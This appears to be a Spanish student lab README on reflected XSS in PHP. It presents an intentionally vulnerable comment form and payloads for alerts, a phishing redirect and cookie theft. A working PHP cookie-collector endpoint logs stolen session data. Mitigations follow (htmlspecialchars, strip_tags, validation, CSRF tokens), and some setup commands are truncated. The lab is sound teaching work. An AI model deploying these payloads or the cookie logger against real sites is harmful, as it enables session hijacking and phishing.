







# PPS-Unidad3Actividad5-Cristian

## Índice

- [PPS-Unidad3Actividad5-Cristian](#pps-unidad3actividad5-cristian)
  - [Índice](#índice)
  - [🔍 Descripción](#-descripción)
  - [🎯 Objetivos](#-objetivos)
  - [🧠 ¿Qué es XSS?](#-qué-es-xss)
    - [Tipos de XSS](#tipos-de-xss)
  - [✍🏻 Actividades a realizar](#-actividades-a-realizar)
    - [Código Vulnerable](#código-vulnerable)
    - [❗Explotación XSS](#explotación-xss)
    - [🍪 Captura de Cookies del Usuario y Robo de Sesiones](#-captura-de-cookies-del-usuario-y-robo-de-sesiones)
    - [Mitigaciones](#mitigaciones)
      - [1. Uso de `filter_input()` y funciones de sanitización para filtrar caracteres](#1-uso-de-filter_input-y-funciones-de-sanitización-para-filtrar-caracteres)
      - [2. Mitigación con `htmlspecialchars()`](#2-mitigación-con-htmlspecialchars)
      - [3. Validación de entrada](#3-validación-de-entrada)
      - [4. Protección contra inyecciones HTML y JS (XSS)](#4-protección-contra-inyecciones-html-y-js-xss)
      - [5. Protección contra ataques CSRF (Cross-Site Request Forgery)](#5-protección-contra-ataques-csrf-cross-site-request-forgery)

---

## 🔍 Descripción

Esta actividad tiene como objetivo explorar vulnerabilidades de tipo **Cross-Site Scripting (XSS)** y aplicar técnicas de mitigación en una aplicación web vulnerable. A través del análisis del código y pruebas prácticas, se pretende comprender el funcionamiento de los ataques XSS y cómo prevenirlos de forma efectiva.

---

## 🎯 Objetivos

- Identificar y comprender las distintas variantes de XSS.
- Explorar cómo se pueden explotar vulnerabilidades XSS en aplicaciones web.
- Analizar el código fuente de una aplicación vulnerable.
- Aplicar técnicas de mitigación y buenas prácticas para evitar XSS.

---

## 🧠 ¿Qué es XSS?

**Cross-Site Scripting (XSS)** es una vulnerabilidad de seguridad que permite a un atacante inyectar scripts maliciosos en sitios web vistos por otros usuarios. Este tipo de ataques se basa en la falta de validación o saneamiento de entradas del usuario.

### Tipos de XSS

1. **XSS Reflejado:** El código malicioso se incluye en la URL y se refleja directamente en la respuesta.
2. **XSS Almacenado:** El script se guarda en el servidor (por ejemplo, en una base de datos) y se ejecuta cuando otros usuarios acceden.
3. **XSS basado en DOM:** La manipulación se produce directamente en el DOM del navegador, sin intervención del servidor.

---

## ✍🏻 Actividades a realizar

Para comenzar vamos a utilizar el entorno de pruebas de la actividad [Actividad 1 - Unidad 3](https://github.com/Clealg01/PPS-Unidad3Actividad1-Cristian). En esta actividad nos clonamos un entorno de pruebas lamp, el cual utilizaremos para las actividades.

### Código Vulnerable
Una vez levantado el entorno de pruebas, vamos a comenzar creando un script con código de ejemplo básico de código PHP vulnerable a ataques de tipo **Cross-Site Scripting (XSS)**:

```php
<?php
if (isset($_POST['comment'])) {
    echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
    <input type="text" name="comment">
    <button type="submit">Enviar</button>
</form>
```

<p align="center">
  
</p>
<p align="center"><em>Ejemplo código php vulnerable</em></p>

<p align="center">
  
</p>
<p align="center"><em>Probando la funcionalidad del script</em></p>

Este fragmento de código crea un formulario en el cual el usuario puede introducir un comentario. Al enviar el formulario, el contenido ingresado se muestra en pantalla mediante el siguiente mensaje:

- ``Comentario publicado: [comentario]``

Sin embargo, el código no realiza ninguna validación ni sanitización de la entrada proporcionada por el usuario, lo cual representa una grave vulnerabilidad de seguridad.


### ❗Explotación XSS

Dado que el contenido ingresado se refleja directamente en el HTML de la respuesta sin ser procesado ni escapado, un atacante podría ingresar código JavaScript malicioso como:

```javascript
<script>alert('XSS')</script>
```
Este código sería ejecutado por el navegador al cargar la página, provocando un ataque XSS reflejado.

<p align="center">
  
</p>
<p align="center"><em>Explotando el código generando una alerta con JavaScript</em></p>

El XSS no solo puede mostrar alertas. También puede ser usado para redirigir al usuario a sitios maliciosos o de phishing, como en el siguiente ejemplo:

```javascript
<script>window.location='https://fakeupdate.net/win11/'</script>
```
Esto provocará una redirección automática a una página que simula una actualización de Windows, engañando al usuario para que crea que debe descargar algo o esperar.

Todo ello puede conllevar a:
- Robo de cookies o sesiones.
- Suplantación de identidad (phishing).
- Carga de malware o exploits.
- Manipulación del DOM para engañar visualmente al usuario.


### 🍪 Captura de Cookies del Usuario y Robo de Sesiones

Una de las formas más peligrosas de explotación de XSS es el robo de **cookies de sesión**, lo cual puede permitir a un atacante **secuestrar la sesión** de otro usuario.

Al insertar el siguiente script en el campo del formulario de la aplicación vulnerable, se puede capturar la cookie del usuario:

```javascript
<script>document.write('')</script>`
```
Esta entrada crea una imagen invisible que envía la cookie como parámetro a un servidor controlado por el atacante.

Para que el ataque funcione, es necesario configurar un endpoint en el servidor del atacante para recibir y almacenar las cookies robadas. En este caso, para realizar la tarea de manera más sencilla vamos a simular este envío y esta redirección de la información dentro de la propia máquina. Primero, nos vamos a meter dentro del contenedor:

```bash
docker exec -it lamp-php83 /bin/bash
```

Una vez dentro, vamos a crear las carpetas y archivos necesarios para quedar bien registrada la sesión robada:

```bash
mkdir /var/www/html/cookieStealer/
/var/www/html/cookieStealer/index.php
/var/www/html/cookieStealer/cookies.txt
777 /var/www/html/cookieStealer/cookies.txt
```

El archivo ``index.php`` contiene este código:
```bash
<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
fclose($file);

// Responder con un JSON de éxito
echo json_encode(["status" => 200]);
?>
```

<p align="center">
  
</p>
<p align="center"><em>Visualización de la cookie robada</em></p>

Con las cookies de sesión robadas, un atacante puede:

- Acceder a cuentas de usuarios sin necesidad de contraseñas.
- Realizar acciones en nombre del usuario.
- Eludir sistemas de autenticación.

### Mitigaciones

Como ya hemos visto, permitir que nuestra página tenga fallos de seguridad como estos es muy peligroso. Es por ello que ahora vamos a revisar varias técnicas para mitigar estos fallos:

#### 1. Uso de `filter_input()` y funciones de sanitización para filtrar caracteres

Para proteger nuestra aplicación contra ataques XSS, debemos asegurarnos de **sanear y validar todas las entradas del usuario** antes de mostrarlas en la página. En este ejemplo se implementa una función personalizada que elimina caracteres peligrosos y se combinan herramientas como `htmlspecialchars()` para codificar entidades HTML.

El código de esta primera solución sería:

```php
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? '');
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validación: no vacío y máximo 500 caracteres
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
<?
```

<p align="center">
  
</p>
<p align="center"><em>Intento de generar alerta con sanitización mediante la función filter_input()</em></p>

#### 2. Mitigación con `htmlspecialchars()`

Una forma efectiva y sencilla de prevenir ataques XSS es usando la función `htmlspecialchars()` de PHP, que convierte caracteres especiales en sus equivalentes seguros en HTML. Esta función de php convierte caracteres peligrosos como:

- `<script>` → `&lt;script&gt;`
- `"` → `&quot;`
- `'` → `&#039;`

Esto impide que el navegador interprete el contenido como código JavaScript, mostrando el texto como tal.

El código de esta segunda solución sería:

```php
<?php
if (isset($_POST['comment'])) {
    $comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
    echo "Comentario publicado: " . $comment;
}
?>

<form method="post">
    <input type="text" name="comment">
    <button type="submit">Enviar</button>
</form>
<?
```

<p align="center">
  
</p>
<p align="center"><em>Intento de generar alerta con sanitización mediante la función htmlspecialchars()</em></p>

#### 3. Validación de entrada

Además de sanitizar los datos del usuario para evitar ataques XSS, es fundamental **validar el contenido** para garantizar que se ajuste a los requisitos funcionales de la aplicación.

En este caso, se busca evitar que los usuarios:

- Envíen comentarios vacíos.
- Ingresen textos demasiado largos.

El código de esta tercera solución sería:

```php
<?php
// Sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

// Validación: no vacío y máximo 500 caracteres
if (!empty($comment) && strlen($comment) <= 500) {
    echo "Comentario publicado: " . $comment;
} else {
    echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
}
?>

<form method="post">
    <input type="text" name="comment">
    <button type="submit">Enviar</button>
</form>
<?
```

<p align="center">
  
</p>
<p align="center"><em>Intento de generar alerta con sanitización mediante la validación de entrada</em></p>

#### 4. Protección contra inyecciones HTML y JS (XSS)

Aunque `htmlspecialchars()` es muy eficaz para evitar la ejecución de scripts maliciosos en el navegador, en algunos casos es preferible **eliminar completamente las etiquetas HTML**, especialmente si no deseas permitir texto enriquecido (negritas, cursivas, enlaces, etc.). Para esto, PHP ofrece la función `strip_tags()`.

- Si deseas permitir únicamente texto plano, sin ninguna etiqueta HTML, puedes usar:

```php
$comment = strip_tags($_POST['comment']);
```

Esta línea eliminará todo tipo de etiquetas HTML y evitará cualquier intento de inyección tanto de HTML como de JavaScript.

. En caso de que sí quieras permitir algunas etiquetas seguras como ``<b>`` (negrita) o ``<i>`` (cursiva), puedes hacerlo especificando qué etiquetas permitir:

```php
$comment = strip_tags($_POST['comment'], '<b><i>');
```
Esto eliminará todas las etiquetas HTML excepto ``<b>`` y ``<i>``, lo que permite ofrecer texto enriquecido controlado sin comprometer la seguridad.

Podemos usar esta función:

- Cuando el campo debe recibir texto plano (comentarios, nombres, mensajes simples).
- Para evitar el uso de etiquetas peligrosas como ``<script>``, ``<iframe>``, ``<object>``, etc.
- Como capa adicional de protección junto con ``htmlspecialchars()`` o validaciones personalizadas.

#### 5. Protección contra ataques CSRF (Cross-Site Request Forgery)

Además de ataques XSS, las aplicaciones web pueden ser vulnerables a ataques de tipo **CSRF**, en los cuales un atacante realiza acciones en nombre del usuario sin su consentimiento, aprovechando que el navegador envía automáticamente cookies de sesión.

Un ataque CSRF engaña al navegador del usuario para que envíe una solicitud (por ejemplo, enviar un comentario, cambiar una contraseña, etc.) sin que el usuario lo sepa. Esto ocurre porque el navegador incluye automáticamente las cookies de sesión del usuario en todas las solicitudes.

Para evitar esto, se utiliza un **token CSRF**: un valor aleatorio generado por el servidor y almacenado en la sesión. Este token se incluye como un campo oculto en los formularios, y se verifica antes de procesar la solicitud.

Los pasos para proteger un formulario serian:

1. **Generar y almacenar el token en la sesión**

```php
session_start();
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
```

2. **Agregar el token al formulario**

```html
<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
```

3. **Verificar el token al recibir el formulario**

```php
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die("Error: Token CSRF inválido.");
}
```

El código de esta sanitización de los formularios solución sería:

```bash
<?php
function filter_string_polyfill(string $string): string
{
    $str = preg_replace('/\x00|<[^>]*>/', '', $string); // Eliminar etiquetas y caracteres nulos
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str); // Reemplazo de comillas
}

session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Verificar el token CSRF
    if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {
        die("Error: Token CSRF inválido.");
    }

    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? '');
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

    // Validar longitud
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Comentarios Seguros</title>
</head>
<body>
    <form method="post">
        <label for="comment">Escribe tu comentario:</label>
        <input type="text" name="comment" id="comment" required maxlength="500">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Enviar</button>
    </form>
</body>
</html>
<?
```

<p align="center">
  
</p>
<p align="center"><em>Intento de generar alerta con protección contra CSRF</em></p>
